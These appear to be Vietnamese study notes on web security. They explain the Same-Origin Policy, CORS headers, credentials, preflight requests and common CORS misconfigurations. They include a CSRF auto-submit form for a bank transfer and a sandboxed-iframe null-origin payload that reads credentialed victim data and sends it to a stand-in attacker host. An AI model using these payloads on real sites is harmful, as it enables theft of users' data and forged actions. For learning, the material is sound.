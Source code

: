 CORS (Cross-Origin Resource Sharing) là một **cơ chế của trình duyệt** cho phép một website yêu cầu tài nguyên từ một **domain khác** với domain mà trang đó đang chạy. Hiểu nôm na là một cánh cửa khác giúp tài nguyên được chia sẻ ( bù đắp cho SOP)
CORS mở rộng SOP bằng cách cho phép server **khai báo rõ** qua HTTP header rằng:
	- Những domain nào được phép truy cập tài nguyên của nó
	- Những method nào được chấp nhận (`GET`, `POST`, `PUT`...)
	- Có cho phép gửi cookie/credentials đi kèm hay không (`Access-Control-Allow-Credentials: true`)
Ví dụ:
``` text
Access-Control-Allow-Origin: https://example.com 
Access-Control-Allow-Methods: GET, POST
```
Khi đó, trình duyệt sẽ cho phép `https://example.com` thực hiện AJAX request tới server.

> COR không ngăn chặn được CSRF. Nó cũng không phải 1 cơ chế bảo mật

### Same-origin policy SOP
**Định nghĩa**
>**Same-Origin Policy** là quy tắc bảo mật của trình duyệt, quy định rằng **một trang web chỉ được phép truy cập dữ liệu (như DOM, cookie, localStorage, response API)** của chính nó (cùng origin: cùng protocol + domain + port).

>Nó có thể **gửi request** sang website khác, nhưng **không được phép đọc nội dung trả về**, trừ khi website kia cho phép rõ ràng bằng CORS.

### CORS and the Access-Control-Allow-Origin response header

#### 1. CORS và vai trò của Access-Control-Allow-Origin
- **CORS (Cross-Origin Resource Sharing)**: nới lỏng có kiểm soát của Same-Origin Policy thông qua các HTTP header.
- Trình duyệt quyết định cho phép hay chặn **đọc response cross-origin** dựa trên các header này.
- **Access-Control-Allow-Origin**: header trong response từ server → xác định origin nào được phép đọc dữ liệu.
- Trình duyệt so sánh giá trị này với origin của request:
    - Nếu trùng → cho phép đọc response.
    - Nếu không → block.
#### 2. Ví dụ CORS cơ bản
 **Request từ site A**
```
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
```
**Response từ server B**
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://normal-website.com
```
=> Vì origin trùng khớp → trình duyệt cho phép script tại `normal-website.com` đọc response.
#### 3. Các giá trị hợp lệ của Access-Control-Allow-Origin
- Một origin cụ thể: `Access-Control-Allow-Origin: https://normal-website.com`
- `null`
- Wildcard `*` (nhưng có giới hạn sử dụng)
**Lưu ý:**
- Không browser nào hỗ trợ nhiều origin trong một header.
- Wildcard không được phép viết như `https://*.example.com`.
#### 4. Cross-origin requests với **credentials**
- Mặc định request cross-origin **không gửi cookie/Authorization header**.
- Nếu server muốn cho phép **đọc response khi có credentials**:
    - Thêm header: `Access-Control-Allow-Credentials: true`
    - Và request phải có `credentials: include` trong JS.

 ##### Ví dụ
**Request:**
```
GET /data HTTP/1.1
Host: robust-website.com
Origin: https://normal-website.com
Cookie: JSESSIONID=<value>
```
**Response:**
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Credentials: true
```
- Khi có `Allow-Credentials: true` → browser cho phép đọc response.
- Nếu không có → browser block.
#### 5. Wildcard và vấn đề bảo mật
- `Access-Control-Allow-Origin: *` được phép.
- Nhưng không thể dùng kết hợp với credentials:
```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true   ❌ KHÔNG HỢP LỆ
```
- Lý do: cực kỳ nguy hiểm, sẽ khiến mọi website có thể đọc dữ liệu nhạy cảm của người dùng.
- Một số server workaround: **reflect Origin header của client** → nguy hiểm nếu không validate.
#### 6. Pre-flight check (OPTIONS request)
- Khi request cross-origin dùng **method lạ** (PUT, DELETE, …) hoặc custom header → browser gửi trước một request `OPTIONS`.
- Đây là **pre-flight request** để hỏi server cho phép gì.
**Ví dụ pre-flight:**
``` Request
OPTIONS /data HTTP/1.1
Host: some-website
Origin: https://normal-website.com
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: Special-Request-Header
```

``` Response
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: https://normal-website.com
Access-Control-Allow-Methods: PUT, POST, OPTIONS
Access-Control-Allow-Headers: Special-Request-Header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240
```
- Trình duyệt kiểm tra:
    - Method có được phép không? (PUT, POST, OPTIONS)
    - Header custom có được phép không? (Special-Request-Header)
- Nếu hợp lệ → gửi request thật.
- Nhược điểm: tốn thêm 1 round-trip HTTP → tăng overhead.
#### 7. CORS và CSRF
- **CORS không bảo vệ chống CSRF** → đây là hiểu nhầm phổ biến.
- CORS chỉ kiểm soát **đọc dữ liệu cross-origin**, không ngăn request được gửi đi.
- CSRF chỉ cần gửi request (không cần đọc response).
- Nếu CORS cấu hình sai (cho phép mọi origin + credentials) → còn làm **tăng rủi ro CSRF**.
**Ví dụ CSRF không cần CORS:**

```html
<form action="https://bank.com/transfer" method="POST">
  <input type="hidden" name="to" value="attacker">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

### Vulnerabilities arising from CORS configuration issues
##### **1.Server-generated ACAO header from client-specified Origin header** 
Một số ứng dụng cần cho phép nhiều domain khác truy cập. Việc duy trì danh sách domain được phép khá tốn công, và dễ gây lỗi nếu sót. Vì vậy, một số ứng dụng chọn cách đơn giản: **cho phép mọi domain**.
Cách phổ biến: đọc giá trị từ header **Origin** của request, rồi trả về trong header **Access-Control-Allow-Origin** đúng origin đó, coi như “origin nào request tới cũng được phép”.
```
Request
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...

Response
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

##### **2. Errors parsing Origin headers**
###### 1. Whitelist theo domain sai cách
Ứng dụng muốn chỉ cho phép một số domain (ví dụ: `innocent-website.com`) gọi API.  
Khi browser gửi request có header **Origin** là `https://innocent-website.com`, server check và phản hồi:
```Response
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: https://innocent-website.com  
```
→ Browser cho phép đọc response.  
Sai lầm phổ biến:  
- Cho phép **tất cả subdomain** (`*.normal-website.com`) nhưng match regex sai.  
  - Nếu chỉ check "kết thúc bằng `normal-website.com`" → attacker đăng ký domain:  
    `hackersnormal-website.com` → vẫn pass filter.  
- Nếu chỉ check "bắt đầu bằng `normal-website.com`" → attacker dùng domain:  
  `normal-website.com.evil-user.net` → vẫn pass filter.  
###### 2. Whitelisted `null` origin value
Theo chuẩn, giá trị **Origin: null** hợp lệ và xảy ra trong một số tình huống:  
- Redirect cross-origin  
- Request từ `file://`  
- Request từ dữ liệu `data:` URL  
- `iframe` sandboxed

Nếu server **whitelist `null`** (thường để tiện dev local), attacker có thể lợi dụng.  
```Request
GET /sensitive-victim-data HTTP/1.1  
Host: vulnerable-website.com  
Origin: null  
```

```Response
HTTP/1.1 200 OK  
Access-Control-Allow-Origin: null  
Access-Control-Allow-Credentials: true
```  

Khi đó attacker có thể dùng một sandboxed iframe tạo request `Origin: null` để đọc dữ liệu:  
> Hiểu nôm na là để có Request gửi đi với `Origin: null` thì dùng iframe

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = function(){
      location='https://malicious-website.com/log?key='+this.responseText;
    };
    req.open('GET','https://vulnerable-website.com/sensitive-victim-data',true);
    req.withCredentials = true;
    req.send();
  </script>">
</iframe>
```

##### **3.Exploiting XSS via CORS trust relationships**
